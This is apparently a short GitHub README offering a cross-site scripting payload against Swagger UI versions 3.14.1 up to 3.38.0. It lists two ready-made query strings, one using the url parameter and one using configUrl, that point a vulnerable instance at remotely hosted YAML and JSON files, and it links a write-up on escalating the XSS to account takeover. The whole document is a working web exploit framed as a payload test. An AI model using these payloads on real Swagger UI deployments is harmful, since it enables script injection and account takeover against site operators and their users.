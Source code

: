 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads Test

### `url`
`?url=https://raw.githubusercontent.com/ClearGate-Int/swagger-UI_xss/main/xss-fetch.yaml`
### `configUrl`
`?configUrl=https://raw.githubusercontent.com/ClearGate-Int/swagger-UI_xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
